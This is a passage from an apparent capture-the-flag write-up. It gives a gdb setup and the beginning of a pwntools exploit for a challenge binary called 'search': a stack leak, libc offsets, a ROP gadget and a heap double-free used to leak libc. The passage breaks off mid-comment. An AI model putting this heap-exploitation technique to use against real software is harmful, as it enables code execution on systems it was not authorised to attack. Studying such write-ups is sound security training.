 
Putting all this inside a `.gdbinit` in the local directory is a convenient way of loading all this automatically:

```
!gcc -gstabs -c structs.c -o structs.o
add-symbol-file structs.o 0

source helper.py

define plist
  set $iter = (struct Word*)$arg0
  while $iter
    print *$iter
    set $iter = $iter->next
  end
end
```

## Full exploit

The full exploit is provided below. Remember that you'll need to change the offsets for a different libc. You also may need to run it a few times because the stack leak occassionally fails, as mentioned above.

``` python
#!/usr/bin/env python2

from pwn import *

context(arch="amd64", os="linux")

p = process('./search-bf61fbb8fa7212c814b2607a81a84adf')

pop_rdi_ret = 0x400e23
system_offset = 0x46590
puts_offset = 0x6fd60
binsh_offset = 1558723

def leak_stack():
    p.sendline('A'*48)
    p.recvuntil('Quit\n')
    p.recvline()

    # doesn't work all the time
    p.sendline('A'*48)
    leak = p.recvline().split(' ')[0][48:]
    return int(leak[::-1].encode('hex'), 16)

def leak_libc():
    # this sentence is the same size as a list node
    index_sentence(('a'*12 + ' b ').ljust(40, 'c'))

    # delete the sentence
    search('a' * 12)
    p.sendline('y')

    # the node for this sentence gets put in the previous sentence's spot.
    # note we made sure this doesn't reuse the chunk that was just freed by
    # making it 64 bytes
    index_sentence('d' * 64)

    # free the first sentence again so we can allocate something on top of it.
    # this will work because 1) the sentence no longer starts with a null byte
    # (in fact, it should be clear that it starts a pointer to 64 d's), and 2)
```